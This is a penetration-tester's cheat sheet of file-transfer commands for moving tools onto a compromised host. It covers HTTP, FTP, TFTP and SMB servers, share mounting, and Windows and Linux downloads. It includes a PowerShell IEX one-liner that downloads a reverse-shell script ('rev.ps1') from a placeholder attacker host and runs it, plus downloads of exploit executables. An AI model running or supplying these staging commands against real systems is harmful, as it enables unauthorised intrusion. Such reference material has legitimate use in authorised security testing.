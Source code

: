 ## Transfer files (HTTP)

python2 -m SimpleHTTPServer 8000

python3 -m http.server 8000

## Transfer files (HTTP)

php -S 127.0.0.1:8080

## Transfer files (FTP)

python3 -m pyftpdlib -p 21

## Transfer file (FTP/msf)

msf> use auxiliary/server/ftp

## Transfer file (TFTP/msf)

msf> use auxilitary/server/tftp

## Windows ( Download TFTP )

tftp -i xxx.xxx.xxx.xxx GET filename.exe\
tftp -i xxx.xxx.xxx.xxx PUT filename.exe

## Windows ( Enable TFTP)

pkgmgr /iu:"TFTP"

## SMB service (Impacket)

python smbserver.py SHARE /root/shells

# Mount windows fileshare                                                                                                                                                                                                                                                               
                                                                                                                                                                                                                                                                                        New-PSDrive -Name "FolderName" -PSProvider "Filesystem" -Root "\\xxx..xxx.xxx\sharename"                                                                                                                                                                                                

## Copy files (SMB service)

copy \\\xxx.xxx.xxx.xxx\\SHARE .

## Windows ( Download HTTP )

powershell "IEX(New-Object Net.WebClient).downloadString('http://xxx.xxx.xxx:8000/rev.ps1')"

(new-object System.Net.WebClient).Downloadfile("http://xxx.xx.xx.xx:8000/1.exe", "1.exe")

powershell -command "& { iwr http://xx.xx.xx.xx:8000/potatos.exe -OutFile potatos.exe }"

## Linux ( Download HTTP )

wget -O filename http://xxx.xxx.xxx/filename

curl -o filename http://xxx.xxx.xxx.xxx/filename

